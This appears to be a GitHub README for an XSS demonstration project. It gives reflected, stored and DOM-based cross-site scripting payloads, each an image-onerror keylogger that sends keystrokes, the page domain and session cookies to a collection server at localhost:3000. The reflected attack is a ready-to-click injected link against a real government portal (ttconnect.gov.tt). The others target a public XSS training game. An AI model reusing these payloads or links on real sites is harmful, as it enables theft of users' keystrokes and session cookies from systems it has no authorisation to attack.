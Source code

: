 # TTC-Connect XSS Demo

## Requirements
[Intall Node JS](https://nodejs.org/en/)
## Instructions

Install necessary packages
```
npm install
```

Run application server
```
node app.js
```

Use the following link for reflected xss attack
[Injected TT Connect Link](http://www.ttconnect.gov.tt/gortt/portal/ttconnect/!ut/p/a1/04_Sj9CPykssy0xPLMnMz0vMAfGjzOK9A40MTD0tjQ0sfLycDYyCfM1CLf0MDA3cDYEKIpEV-Ae5uwEVuJoaeniHGRsYGBCn3wAHcCSoP1w_ClWJf6CBJVCJp6Grgam3sbuXAYYCTCeCFeBxQ0FuaIRBpqciAKjdE-c!/dl5/d5/L2dBISEvZ0FBIS9nQSEh/?searchKeyword=++++%3Cimg+hidden+src%3D%27x%27+onerror%3D%22document.onkeypress%3Dfunction%28e%29%7B+var+xhr+%3D+new+XMLHttpRequest%28%29%3B+xhr.open%28%27POST%27%2C+%27http%3A%2F%2Flocalhost%3A3000%2Fcandy%3Fk%3D%27%2BString.fromCharCode%28e.which%29%29%3B+xhr.setRequestHeader%28%27Content-Type%27%2C+%27application%2Fjson%27%2C+%27Access-Control-Allow-Origin%27%2C%27localhost%3A3000%27%29%3B+xhr.send%28JSON.stringify%28%7Bdomain%3Adocument.domain+%2C+cookie%3A+document.cookie%7D%29%29%7D%22%2F%3E&ctl00%24HomeSearchBar1%24HiddenField1=&selectedCategory=entireSite&ctl00%24HomeSearchBar1%24submit_button.x=0&ctl00%24HomeSearchBar1%24submit_button.y=0)

Type something on the site or make any key strokes

Open sessiondata.txt to see logged information


Use the following link for stored xss attack
[Vulnerable Forum](https://xss-game.appspot.com/level2/frame)

Submit the following script, the script will executed everything your refresh as its persistent
```
 <img hidden src='x' onerror="document.onkeypress=function(e){ var xhr = new XMLHttpRequest(); xhr.open('POST', 'http://localhost:3000/candy?k='+String.fromCharCode(e.which)); xhr.setRequestHeader('Content-Type', 'application/json', 'Access-Control-Allow-Origin','localhost:3000'); xhr.send(JSON.stringify({domain:document.domain , cookie: document.cookie}))}"/>

```

Use the following link for dom-based xss attack
[Injected TT Connect Link](https://xss-game.appspot.com/level1/frame?query=%3Cimg+hidden+src%3D%27x%27+onerror%3D%22document.onkeypress%3Dfunction%28e%29%7B+var+xhr+%3D+new+XMLHttpRequest%28%29%3B+xhr.open%28%27POST%27%2C+%27http%3A%2F%2Flocalhost%3A3000%2Fcandy%3Fk%3D%27%2BString.fromCharCode%28e.which%29%29%3B+xhr.setRequestHeader%28%27Content-Type%27%2C+%27application%2Fjson%27%2C+%27Access-Control-Allow-Origin%27%2C%27localhost%3A3000%27%29%3B+xhr.send%28JSON.stringify%28%7Bdomain%3Adocument.domain+%2C+cookie%3A+document.cookie%7D%29%29%7D%22%2F%3E)

Type something on the site or make any key strokes

Open sessiondata.txt to see logged information



